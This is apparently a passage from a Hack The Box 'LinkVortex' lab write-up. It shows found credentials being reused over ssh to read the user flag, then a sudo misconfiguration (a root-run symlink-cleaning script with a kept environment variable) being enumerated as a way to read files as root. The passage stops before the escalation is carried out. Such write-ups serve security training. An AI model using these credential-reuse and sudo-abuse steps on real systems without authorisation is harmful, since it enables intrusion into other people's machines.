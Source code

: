 
We can **reuse these credentials** over `ssh` to grab the `user.txt` flag!
```bash
┌──(kali@kali)-[~/linkvortex.htb/dev.linkvortex.htb]
└─$ ssh bob@linkvortex.htb 
bob@linkvortex.htbs password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Dec  3 11:41:50 2024 from 10.10.14.62
bob@linkvortex:~$ id  
uid=1001(bob) gid=1001(bob) groups=1001(bob)
bob@linkvortex:~$ cat user.txt
```

![htb-linkvortex-user-txt](images/HTB-linkvortex/htb-linkvortex-user-txt.png)
## root.txt
Enumerating `bob`'s `sudo` privileges we can run a shell script as `root` and set the `CHECK_CONTENT` environment variable
```bash
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

The `clean_symlink.sh` script will let us **read any file as `root`**. Let's dig into the details

The first argument must end in `.png`
```bash
bob@linkvortex:/opt/ghost$ cat clean_symlink.sh 
#!/bin/bash
# ...
LINK=$1
if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi
# ...
```
